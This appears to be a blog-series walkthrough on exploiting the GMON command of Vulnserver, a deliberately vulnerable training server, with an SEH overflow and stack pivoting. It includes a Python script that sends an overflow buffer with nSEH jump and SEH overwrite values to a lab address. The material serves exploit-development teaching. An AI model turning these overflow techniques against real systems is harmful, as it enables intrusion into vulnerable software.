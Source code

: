 ```yaml
---
title: "Vulnserver GMON - SEH Overflow & Stack Pivoting"
classes: wide
tag: 
  - "windows exploitation"
  - "vulnserver"
header:
  teaser: /assets/images/win-exp/windows-exp.png
ribbon: blue
description: "A simple walkthrough on  Vulnserver GMON SEH overflow with stack pivoting"
categories: ['Exploit-Development','Windows-Exploitation','Vulnserver']
---
```


- [Windows 10 Exploit Development - SEH Overflow & Stack Pivoting](#windows-10-exploit-development---seh-overflow--stack-pivoting)
  - [Prologue](#prologue)
  - [Stack Pivoting](#stack-pivoting)
  - [Finding the best way](#finding-the-best-way)
  - [Performing long jump](#performing-long-jump)
  - [Exploitation](#exploitation)

## Prologue

I had already discussed about ```SEH``` and how to overflow SEH to perform exploitation along with ```Egg hunters``` & ```Stack pivoting``` in my previous blog of this series

In this blog, we will be performing only ```Stack pivoting``` to exploit the GMON command

## Stack Pivoting

As we discussed in previous blog post, stack pivoting can be used to control the program execution to run our shellcode

The point is, we need to find a suitable way to pivot the stack so that our payload will get executed (It like pointing the way to the program for our shellcode)

Egg hunters do not work as expected everytime, so it is best to try an alternate approach to exploit with short buffers

We used ```egg hunter``` to find the egg inside our memory and made our shellcode to get executed, what if we directly stack pivot into the memory region containing shellcode with NOPS

By doing this, we don't need egg hunter and egg

## Finding the best way

After crashing with our python script, by overwriting SEH and nSEH values

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-nseh.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"\xeb\xce"
payload+=b"\x90\x90"
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62"
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
```
